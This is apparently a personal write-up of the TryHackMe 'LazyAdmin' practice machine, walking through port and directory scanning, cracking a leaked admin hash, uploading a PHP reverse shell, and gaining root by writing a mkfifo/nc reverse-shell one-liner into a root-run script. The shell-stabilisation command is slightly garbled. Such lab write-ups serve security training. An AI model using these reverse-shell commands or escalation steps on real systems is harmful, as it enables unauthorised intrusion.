 ```yaml
---
title: TryHackMe - LazyAdmin
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc, ssh, http, gobuster ]
image:
    path: /assets/img/try%20hack%20me%20/Easy/LazyAdmin/0.jpeg
    alt: LazyAdmin
---
```


# LazyAdmin

Easy Linux machine to practice your skills.  

# Tasks

capture the user and root flag.  

# nmap

## ip `10.10.24.121`

## Command 
```sh
nmap -sV -sC -v 10.10.24.121
```
## Results
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## ip `10.10.24.121`


To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



##  site

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/1.png)


# gobuster

```sh
	gobuster dir -u http://10.10.24.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Results

```sh
/content
```


## /content
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/2.png)

Nothing much so i run another gobuster on the directory hoping to find sub-directories  



## gobuster /content

## Command 
```sh
 gobuster dir -u http://10.10.10.216/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/3.png)

```sh
/inc
```
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/4.png)

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/5.png)


![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/6.png)

admin = manager  
password = 42f749ade7f9e195bf475f37a44cafcb\\  
Decoding the password = Password123  

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/7.png)

log in using the details.  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/8.png)

Let's look around searching for an exploit vector.  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/9.png)

Get a reverse shell script *php change the ip then copy paste it.  
Now go to 10.10.10.216/content/inc/ads/shell.php but first run nc on your machine
```sh
nc -nlvp 1234
```

*Machine just expired let me start it again Damn all that progress!!! 

## ip `10.10.66.184`

## Commands
will have to start all over again :
1. 10.10.66.184/content/as
2. user = manager
3. password = Password123
4. Upload the reverse shell on ads management room
5. nc -nvlp 1234
6. `http://10.10.66.184/content/inc/ads/shell.php`

**now we have a shell !!!**

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/10.png)  

user flag = THM{...}  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/11.png)



# priv esc

First lets stablelize the shell.  
```sh
python3 -c'importpty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/12.png)  
Let's first look at the backup.pl   
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/13.png)  

Runs the command with root previlage and we can read and execute it.  
The script runs another script  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/14.png)


```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.172.59 5554 >/tmp/f' >/etc/copy.sh
```
Run nc 
```sh
nc -nvlp 5554
```

On the machine run 
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```
Root flag = THM{...}  
![](/assets/img/try%20hack%20me%20/Easy/LazyAdmin/15.png)

